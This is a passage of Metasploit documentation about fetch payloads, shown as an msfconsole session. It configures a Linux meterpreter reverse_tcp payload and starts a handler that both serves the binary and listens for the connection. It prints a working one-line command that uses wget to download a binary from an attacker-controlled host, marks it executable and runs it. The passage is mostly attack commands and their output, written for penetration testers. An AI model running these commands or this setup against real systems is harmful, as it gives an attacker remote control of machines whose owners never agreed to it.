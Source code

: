 The remaining options will be the options available to you in the served payload; in this case our served payload is
`linux/x64/meterpreter/reverse_tcp` so our only added options are `LHOST` and `LPORT`.  If we had selected a different
payload, we would see different options.

### Generating the Fetch Payload
```msf
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set FETCH_COMMAND WGET
FETCH_COMMAND => WGET
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set FETCH_SRVHOST 10.5.135.201
FETCH_SRVHOST => 10.5.135.201
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set FETCH_SRVPORT 8000
FETCH_SRVPORT => 8000
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set LHOST 10.5.135.201
LHOST => 10.5.135.201
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set LPORT 4567
LPORT => 4567
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > generate -f raw
wget -qO ./YXeSdwsoEfOH http://10.5.135.201:8000/3cP1jDrJ3uWM1WrsRx3HTw; chmod +x ./YXeSdwsoEfOH; ./YXeSdwsoEfOH &
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > 
```

You can see the fetch payload generated:
`wget -qO ./YXeSdwsoEfOH http://10.5.135.201:8000/3cP1jDrJ3uWM1WrsRx3HTw; chmod +x ./YXeSdwsoEfOH; ./YXeSdwsoEfOH &`
This command downloads the served payload, marks it as executable, and then executes it on the remote host.

### Starting the Fetch Server
When you start the `Fetch Handler`, it starts both the server hosting the binary payload *and* the listener for the
served payload.  With `verbose` set to `true`, you can see both the Fetch Handler and the Served Payload Handler are
started:
```msf
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > to_handler
[*] wget -qO ./YBybOrAmkV http://10.5.135.201:8000/3cP1jDrJ3uWM1WrsRx3HTw; chmod +x ./YBybOrAmkV; ./YBybOrAmkV &
[*] Payload Handler Started as Job 0
[*] Fetch Handler listening on 10.5.135.201:8000
[*] http server started
[*] Started reverse TCP handler on 10.5.135.201:4567 
```

### Fetch Handlers and Served Payload Handlers
The Fetch Handler is tracked with the Served Payload Handler, so you will only see the Served Payload Handler under
`Jobs`, even though the Fetch Handler is listening:
```msf
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > jobs -l

Jobs
====

  Id  Name                    Payload                                     Payload opts
  --  ----                    -------                                     ------------
  0   Exploit: multi/handler  cmd/linux/http/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4567

msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > netstat -ant | grep 8000
[*] exec: netstat -ant | grep 8000

tcp        0      0 10.5.135.201:8000       0.0.0.0:*               LISTEN     
```